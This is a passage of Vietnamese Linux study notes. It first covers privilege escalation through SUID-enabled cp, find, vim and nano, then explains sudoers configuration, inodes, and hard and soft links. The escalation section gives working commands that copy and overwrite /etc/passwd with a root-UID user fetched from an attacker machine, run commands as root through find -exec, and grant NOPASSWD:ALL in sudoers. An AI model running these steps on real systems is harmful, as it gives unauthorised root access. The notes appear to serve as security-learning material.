

Xác nhận lại 
```
which cp
ls -ls /bin/cp
```



Ok nó có SUID, ý tưởng ở đây là: Chúng ta sẽ copy file /etc/passwd. Nơi chứa rất nhiều thông tin nhạy cảm như thông tin của các user trên máy. Sử dụng copy, chúng ta sẽ chuyển nó đến thư mục web /var/www/html. Trên máy attacker, chúng ta dễ dàng truy cập, copy toàn bộ nội dung vào 1 file text. Tạo một user mới bằng cách sử dụng OpenSSL, gán quyền root cho user đó ( UID = 0 ), lưu vào cuối file text. Sau đó chuyển lại về máy victim ở thư mục /tmp/ (thư mục mặc định, có toàn quyền để tạo hay xóa mọi file) . Cuối cùng là dùng copy để ghi đè lên file passwd thật.

- Command: `cp /etc/passwd /var/www/html`




Copy nội vào file text tên `passwd` và tạo một user mới:
- Command: `openssl passwd -1 -salt [salt value] {password}`



- Thêm user vào cuối file text trên, gán UID, GID:



Đưa file text vừa tạo ở máy attacker lên 1 "web server" sử dụng python2:

- Command:` python -m SimpleHTTPServer 8899`

Tại thư mục **/tmp/** ở máy victim, **wget** file text trên về:
Command:
```
cd /tmp
wget IP:8899/passwd
cp passwd /etc/passwd
```




Kiểm tra xem đã ghi đè thành công chưa bằng cách đọc 3 dòng cuối của **/etc/passwd**
Command: `tail -n 3 /etc/passwd`

- Đến đây thì chỉ cần su (switch user) sang user3 và Get ROOT.


##### 2.4.4.2. Khi SUID được gán cho Find command
Command: `find / -perm -u=s -type f 2>/dev/null`
Tại đây ta grep find để trả ra kết quả dễ nhìn hơn.


Với find, bạn không thể có được một Root shell, nhưng có thể thực thi mọi lệnh với tư cách root.


- Command:
```
touch anything
find anything -exec "command muốn thực thi" ;
```




#### 2.4.4.3. Khi SUID được gán cho Vim
- Command: `find / -perm -u=s -type f 2>/dev/null| grep vim`



Tại đây khi Vim được gán SUID, chúng ta sẽ dùng nó để sửa đổi file Sudoers.
Command: `vim visudo`
Edit :`username ALL=(ALL) NOPASSWD:ALL`



Và get ROOT:



##### 2.4.4.4. Khi SUID được gán những script có sẵn
- Chuyện này có lẽ thường chỉ có trong những bài Lab ở mức độ easy, nơi owner tạo ra những đoạn script có sẵn dùng để get root shell. Cũng là một lưu ý khi gặp bài kiểu này, hãy thêm | grep shell hay | grep root, grep |asroot ...Nếu có, việc còn lại chỉ là chỉ là chạy script.



##### 2.4.4.5. Khi SUID được gán cho Nano
- Phương thức cũng sẽ giống như ở phần copy, mục tiêu là chỉnh sửa file /etc/passwd. Nhưng với nano, mọi chuyện dễ dàng hơn nhiều.
- Tạo user mới bằng openSSL như phía trên: openssl passwd -1 -salt demo passwd123



- Kiểm tra xem nano có được gán SUID không, nếu có thì thêm user vào /etc/passwd với đặc quyền root.
Command:
`find / -perm -u=s -type f 2>/dev/null | grep nano`
`nano /etc/passwd`




Và get ROOT:


### 2.5. Quyền root cho User 
File `/etc/sudoers` : 
- Cấu trúc : `%GROUP HOSTNAME=(TARGET_USERS) COMMAND`

    - `%GROUP` ( hoặc `%USER` ) : tên group hoặc user được cấp quyền
    - `HOSTNAME` : Tên máy mà luật được áp dụng lên. Tham số này cần thiết vì sudo được thiết kế để bạn có thể dùng một file sudoers cho các máy khác . Lúc này sudo sẽ xem máy đang chạy được dùng các luật nào . Nói cách khác , bạn có thể thiết kế các luật cho từng máy trong hệ thống . Tham số này thường đặt là ALL
    - `TARGET-USERS`: Tên người dùng đích “mượn” quyền root thực thi.
    - `COMMAND` : Tên “lệnh” ( thực ra là các tập tin thực thi `binary` - chỉ user `root` được sử dụng ) mà người dùng được quyền thực thi với bất kỳ tham số nào mà họ muốn . Tuy nhiên bạn cũng có thể đặc tả các tham số của lệnh ( bao gồm các dấu thay thế wildcards ). Ngược lại , có thể dùng kí hiệu `“ ”` để ám chỉ là lệnh chỉ được thực thi mà không có tham số nào cả .

- Các bước thực hiện cấp quyền cho user
**B1 :** Đăng nhập dưới quyền user `root` . Nếu đang đăng nhập bằng user khác thì gõ lệnh : `# su` => Nhập password Root hoặc `# sudo -i` => Nhập password Root

**B2 :** Chỉnh sửa file `/etc/sudoers`
```bash
vi /etc/sudoers # => Gõ `I` để vào mode -INSERT--
```
**B3 :** Gõ :`/Allows people in group` để tìm kiếm dòng :




**B4 :** Thêm vào bên dưới :

Các user trong group u1 được phép thực thi tất cả các lệnh : `%u1 ALL=(ALL) ALL`
Các user trong nhóm `u1` được thực hiện 1 số lệnh nhất định : `%u1 ALL=(ALL)` `/usr/sbin/useradd`, `/usr/sbin/userdel`, `/etc/init.d/httpd`
**B5 :** Gõ Esc để thoát khỏi Insert Mode . Gõ `:wq!` để Save và thoát ra .

**B6 :** Đăng nhập với các user và kiểm tra :

- **VD :** Đăng nhập bằng user `u1` và thực hiện tạo user `u6` :



=> Kết quả ( dùng lệnh `cat /etc/passwd` để kiểm tra ) 


## 3. Liên kết Hard Link và Soft Link

### 3.1. Inode và Khái niệm File trong Unix-like Systems
- Trong các hệ điều hành **Unix-like**, mọi thứ đều được coi là **file** – từ tệp tin thông thường, thư mục, thiết bị, đến socket. Tuy nhiên, một file không phải là nội dung dữ liệu trực tiếp mà là một liên kết (link) đến một cấu trúc dữ liệu gọi là inode (index node). **Inode** là một khối metadata chứa thông tin về file, bao gồm:

+ Ngày tạo, sửa đổi, và truy cập.
+ Quyền hạn (permissions), chủ sở hữu (owner), và nhóm (group).
+ Số lượng hard link trỏ đến nó (link count).
+ Tham chiếu đến vị trí lưu trữ thực tế của nội dung dữ liệu (payload) trên đĩa cứng.

- **Inode** không chứa tên file gốc hoặc nội dung thực tế; nó chỉ là "bảng chỉ dẫn" giúp hệ thống tìm đến dữ liệu. Mỗi inode có một số duy nhất (inode number) để nhận dạng.

> **Lưu ý quan trọng: Inode** được tạo khi file được tạo, và nó tồn tại độc lập với tên file. Nếu bạn xóa một file, hệ thống chỉ giảm link count của inode; dữ liệu chỉ bị xóa thực sự khi link count về 0. Điều này giải thích tại sao hard link và soft link hoạt động khác nhau.

Để minh họa, hãy tạo một file đơn giản và kiểm tra inode. Bạn có thể sử dụng lệnh cat để tạo file nhanh chóng mà không cần trình soạn thảo:
```bash
cat > file1.txt

# Nhập nội dung (nhấn Enter cho dòng mới), rồi nhấn Ctrl+D để kết thúc và lưu file.

# Để xem inode number, sử dụng lệnh ls -i:
bashls -i file1.txt
```
Kết quả có thể là một số như 921412, đại diện cho inode của file.


### 3.2. Các Loại File trong Unix
- Theo chuẩn **POSIX**, **Unix-like systems** hỗ trợ **bảy loại file chính**: 
    + regular files (tệp thông thường)
    + directory (thư mục)
    + symbolic link (soft link)
    + FIFO special (pipe)
    + block special (thiết bị khối)
    + character special (thiết bị ký tự)
    + socket. 

Mỗi loại đều là "file" và có inode riêng, nhưng cách chúng tham chiếu dữ liệu khác nhau.

> **Lưu ý quan trọng:** **Thư mục (directory)** cũng là một loại file đặc biệt, **chứa danh sách các liên kết đến inode của các file con**. Tuy nhiên, bạn **không thể tạo hard link cho thư mục để tránh tạo chu kỳ (cycles) dẫn đến lỗi hệ thống file vô tận**. Thay vào đó, sử dụng soft link cho thư mục.

### 3.3. Hard Link
- Hard link là một liên kết trực tiếp trỏ đến inode của file, nghĩa là nó chia sẻ cùng metadata và nội dung dữ liệu với file gốc. Mỗi file khi tạo đều có ít nhất một hard link (tên file gốc), và hệ thống sử dụng link count để theo dõi số lượng hard link.

+ Không có "file gốc" hay "bản sao"; tất cả hard link đều bình đẳng, vì chúng trỏ cùng inode. Thay đổi nội dung qua bất kỳ hard link nào cũng ảnh hưởng đến tất cả.
+ Hard link chỉ hoạt động trong cùng filesystem (không cross-filesystem), vì inode là duy nhất trong filesystem.

- Để xem link count, sử dụng `ls -l` (cột thứ hai hiển thị số lượng hard link). Ví dụ, thư mục mới tạo có link count là 2: một cho chính nó (.) và một cho thư mục cha (..). Mỗi thư mục con tăng link count của thư mục cha lên 1.

Cách tạo hard link bằng lệnh ln:
```bash
ln file1.txt link_to_file1.txt
ln -v file1.txt link_to_file1.txt  # -v cho verbose mode
ln file1.txt /different/folder/link_to_file1.txt  # Tạo ở thư mục khác, nhưng cùng filesystem
```

**Lưu ý quan trọng:** Để xóa file hoàn toàn, phải xóa tất cả hard link (link count về 0). Xóa một hard link không ảnh hưởng đến các hard link khác. Sử dụng rm hoặc unlink để xóa hard link:.
```
rm link_to_file1.txt
unlink link_to_file1.txt
```


Để tìm tất cả hard link của một file, lấy inode number từ ls -i, rồi dùng find:
```bash
find / -inum 921415  # Tìm toàn hệ thống
```
Điều này liệt kê tất cả đường dẫn trỏ đến cùng inode.
- **Ưu điểm:** Tiết kiệm không gian (không sao chép dữ liệu), bền vững (không bị hỏng nếu đổi tên file). 
- **Nhược điểm:** Không dùng cho thư mục hoặc cross-filesystem.

### 3.4. Soft Link (Symlink, Symbolic Link)
- **Soft link (hay symlink)** là một file nhỏ chứa đường dẫn (path) đến file hoặc thư mục đích, hoạt động như "shortcut" trong Windows. Không giống hard link, soft link có inode riêng và không trỏ trực tiếp đến dữ liệu; nó chỉ trỏ đến tên file đích.

+ Đường dẫn có thể là relative (`../folder1/file1`) hoặc absolute (`/opt/folder1/file1`).
+ Có thể tạo soft link cho thư mục hoặc cross-filesystem, vượt qua hạn chế của hard link.
+ Trong `ls -l`, soft link hiển thị với chữ 'l' ở đầu permissions, và đường dẫn đích (thường màu cyan trên Ubuntu). Nếu đích bị xóa hoặc di chuyển, soft link bị hỏng (broken, màu đỏ trên Ubuntu).

Cách tạo soft link bằng ln -s:
```bash
ln -s file1.txt symlink_to_file1.txt
ln -vs file1.txt symlink_to_file1.txt  # -v cho verbose
ln -s /source/folder /different/filesystem/symlink_to_folder
```

> Soft link bị hỏng nếu file đích bị xóa hoặc đổi tên/đường dẫn. Ví dụ, nếu đổi tên folder1 thành folder11, symlink cũ sẽ broken. Tạo symlink mới để sửa. Xóa soft link không ảnh hưởng đến file đích.

Xóa soft link bằng rm hoặc unlink (tương tự hard link):
```bash
rm symlink_to_file1.txt
unlink symlink_to_file1.txt
```

Để tìm tất cả soft link trong hệ thống:
```
find / -type l
```

Để tìm soft link trỏ đến file cụ thể:
```bash
find -L /path -xtype l -samefile /opt/file1.txt

-L: Theo dõi symlink.
-xtype l: Chỉ symlink.
-samefile: Trỏ cùng inode.
```

#### 3.4.1. So sánh và Lưu ý
- Hard link và soft link đều giúp tham chiếu file mà không sao chép dữ liệu, nhưng hard link bền vững hơn (chia sẻ inode), trong khi soft link linh hoạt hơn nhưng dễ hỏng. Sử dụng hard link cho backup hoặc tổ chức file cùng filesystem; soft link cho shortcut hoặc liên kết giữa các đĩa.
> Lưu ý quan trọng: Tránh tạo cycle với soft link (ví dụ: symlink A trỏ B, B trỏ A). Kiểm tra filesystem giới hạn (như ext4 hỗ trợ giới hạn hard link per inode). Trong script, dùng readlink để giải mã symlink: readlink -f symlink_to_file1.txt

#### 3.4.2. Symbolic Links và Hard Links trong Windows 
- Trong Windows (NTFS), tương đương là **hard link**, **junction** (soft link cho thư mục), và **symbolic link** (soft link cho file/thư mục). Sử dụng lệnh `mklink` để tạo:

+ Hard link: `mklink /H link source`.
+ Symbolic link: `mklink link source`.
+ Junction: `mklink /J link source `(cho thư mục).

Windows hỗ trợ ba loại:** hard link **(tương tự Linux), **junction** (soft link cho thư mục, không cross-volume), và **symbolic link** (linh hoạt hơn, cross-volume).
> Lưu ý quan trọng: Cần quyền admin để tạo symbolic link trong Windows. Tham khảo docs Microsoft để chi tiết.

